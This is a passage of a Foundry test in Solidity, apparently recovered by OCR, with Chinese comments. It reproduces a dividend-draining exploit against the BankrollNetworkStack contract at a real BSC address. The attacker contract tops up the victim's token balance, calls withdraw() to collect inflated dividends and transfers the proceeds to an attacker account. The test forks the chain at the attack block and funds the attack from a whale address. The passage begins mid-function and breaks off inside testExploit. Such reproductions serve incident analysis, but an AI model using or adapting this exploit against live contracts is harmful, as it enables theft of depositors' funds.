 ```so


        uint256 trax = IBankrollNetworkStack(VICTIM_CONTRACT).myDividends() - IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);
        // 这里 很重要 ，我们winthdraw 是 会触发 myDividends( ) 计算分红的, 但是有可能里面已经没有那么多给我们分红了
        // 所以我们要把补上 ,可以试试把这个删掉 其实会报错
        IERC20(TOKEN).transfer(VICTIM_CONTRACT,trax);
        // 
        // 6. 提取所有分红收益
        IBankrollNetworkStack(VICTIM_CONTRACT).withdraw();
        
        // 7. 将所有Token转移给攻击者EOA
        uint256 finalBalance = IERC20(TOKEN).balanceOf(address(this));
        if(finalBalance > 0) {
            IERC20(TOKEN).transfer(ATTACKER_EOA, finalBalance);
        }

        console.log(unicode"攻击执行完成, 资金已转移给攻击者EOA");
        console.log(unicode"最终Token余额:", finalBalance / 1e18);
    }
}

contract BankrollNetworkTest is Test {
    address public ATTACKER_EOA;
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    // 使用BSC上某个持有大量WETH的地址作为资金来源
    address private constant TOKEN_WHALE = 0xF977814e90dA44bFA03b6295A0616a897441aceC;

    AttackerContract private attacker;

    function setUp() public {
        // 创建BSC网络的fork,使用攻击发生的区块
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 60376707);

        // 设置攻击者EOA
        ATTACKER_EOA = makeAddr("ATTACKER_EOA");
        
        // 部署攻击合约
        vm.startPrank(ATTACKER_EOA);
        attacker = new AttackerContract(ATTACKER_EOA);
        vm.stopPrank();

        // 给攻击合约一些初始BNB用于支付gas
        vm.deal(address(attacker), 10 ether);

        // 从TOKEN大户转入一些代币作为攻击初始资金
        vm.startPrank(TOKEN_WHALE);
        IERC20(TOKEN).transfer(address(attacker), 26712204771447245411336); // 转入2万Token
        vm.stopPrank();
    }

    function testExploit() public {
        // 记录攻击前余额
        uint256 attackerBalanceBefore = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceBefore = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击前状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceBefore / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceBefore / 1e18);

        // 执行攻击
```